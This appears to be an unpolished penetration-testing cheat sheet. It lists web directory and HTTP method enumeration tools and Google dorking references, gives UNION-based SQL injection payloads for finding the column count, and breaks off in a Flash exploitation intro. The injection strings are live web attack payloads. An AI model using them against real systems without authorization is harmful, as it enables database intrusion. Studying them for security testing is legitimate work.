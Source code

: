   - Enumerate Resources (Files):
    ```
    Burb -Spider
    DirBuster
    Drib
    DirSearch
    Fuff
    Wfuzz
    Enumerate User
    Patator
    BurbBurb -Spider
    
    Enumerate Http Method
      Burbsuite
      Netcat
      Using Option Http Header

    Public file search tools
      Google Dorks
      Foca
      Metagoofil
    ```
    
  - Google Dorking Methods:
    ```
    https://pentest-tools.com/information-gathering/google-hacking
    https://www.exploit-db.com/google-hacking-database
    http://www.googleguide.com/advanced_operators_reference.html

    
    
    ```
    

  ```
    
- Sql Injection:
  ```
  Detecting the number of fields needed to exploit an in-band SQL
  injection looks like the following:
    • 9999 UNION SELECT NULL; -- -
    • 9999 UNION SELECT NULL, NULL; -- -
    • ...
    • 9999 UNION SELECT NULL, NULL, NULL, NULL; -- -

    • SELECT id, real_name FROM users WHERE id='9999'
      UNION SELECT NULL; -- -

    • SELECT id, real_name FROM users WHERE id='9999'
      UNION SELECT NULL, NULL; -- -

    ' UNION SELECT null, null; -- -
    ' UNION SELECT 1, null; -- -
    ' UNION SELECT 1, null; -- -
    ' UNION SELECT 1, 1; -- -
    ' UNION SELECT 1, 'a'; -- -
  ```
    
- Flash exploit:
  ```
        Adobe Flash is a technology used to create video, animations and
    other rich content. Flash files can be used as standalone
    applications or be embedded in HTML pages.
    The contents can be developed using several tools: Adobe Flash
    Professional (the most popular), Flash Develop, Ajax Animator,
    Flash Minibuilder, etc.
